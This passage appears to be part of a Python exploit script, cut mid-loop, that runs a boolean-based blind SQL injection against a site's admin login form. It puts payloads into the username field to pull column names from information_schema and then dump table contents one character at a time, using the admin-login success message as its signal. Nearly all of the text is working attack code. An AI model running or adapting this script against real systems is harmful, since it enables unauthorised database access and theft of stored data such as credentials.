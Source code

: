 ```python
    for i in tablas_db:
        for j in tablas_db[i]:
            while True:
                data = {
                    "op": "adminlogin",
                    "username": f"juan' or ascii(substring((select group_concat(column_name) from information_schema.columns where table_schema='{i}' and table_name='{j}'),{posicion},1))={char}-- -",
                    "password": "",
                }
                response = requests.post(url, data=data, headers=headers)
                if (
                    "You have now logged in to the Admin area" in response.text
                    and chr(char).isupper() == False
                ):
                    columnas += chr(char)
                    char = 30
                    posicion += 1
                else:
                    char += 1

                if char == 126:
                    break
            posicion = 1
            char = 30
            tablas_dict[j] = columnas.split(",")
            columnas_tablas_db[i] = tablas_dict
            columnas = ""

        tablas_dict = {}
    print(columnas_tablas_db)
    columnas_tablas_db_datos = {}

    for i in columnas_tablas_db:
        for j in columnas_tablas_db[i]:
            datos_dict = {}
            for k in columnas_tablas_db[i][j]:
                datos = ""
                while True:
                    data = {
                        "op": "adminlogin",
                        "username": f"juan' or ascii(substring((select group_concat({k} SEPARATOR '--..--') from {i}.{j}),{posicion},1))={char}-- -&op=PrintTournamentResults",
                        "password": "",
                    }
                    response = requests.post(url, data=data, headers=headers)
                    if (
                        "You have now logged in to the Admin area" in response.text
                        and chr(char)
                        in ' !$%&()*+,./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ""[]_-abcdefghijklmnopqrstuvwxyz{|}~'
                    ):
                        datos += chr(char)
                        print(datos)
                        char = 30
                        posicion += 1
                    else:
                        char += 1

                    if char == 126:
                        break
                posicion = 1
                char = 30

```